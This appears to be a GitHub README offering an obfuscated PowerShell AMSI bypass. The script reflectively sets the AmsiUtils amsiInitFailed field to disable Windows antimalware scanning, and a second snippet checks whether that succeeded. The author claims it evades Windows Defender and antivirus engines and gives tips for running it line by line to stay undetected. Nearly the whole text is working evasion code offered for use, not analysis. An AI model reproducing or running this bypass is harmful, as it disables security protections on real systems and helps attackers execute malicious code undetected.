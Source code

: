 This is an advanced ASMI bypass that currently isn't picked up by Windows defender or any of the anti virus softwares on VirusTotal.

You should run this script line by line, don't just execute it .\pwn.ps1 it might get detected if you do that.

But just running it line by line is undetected currently.

It's bypassed ASMI on prolabs from HackTheBox and even on my personal computer.

```powershell
$e=[Ref].('Assem'+'bly').GetType(([string]::Join('', [char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))))
$n='Non'+'Public'
$s='Static'
$f=$e.GetField(([string]::Join('', [char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),($n+','+$s))
$t=[type[]]@([object],[bool])
$m=$f.GetType().GetMethod('Set'+'Value', $t)
$m.Invoke($f, @($null, $true))
```

# Check if it Worked!

This should return True if it worked and it'll return False if the bypass failed.

```powershell
$e=[Ref].Assembly.GetType(([string]::Join('',[char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))));
$f=$e.GetField(([string]::Join('',[char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),"NonPublic,Static");
$f.GetValue($null)
```

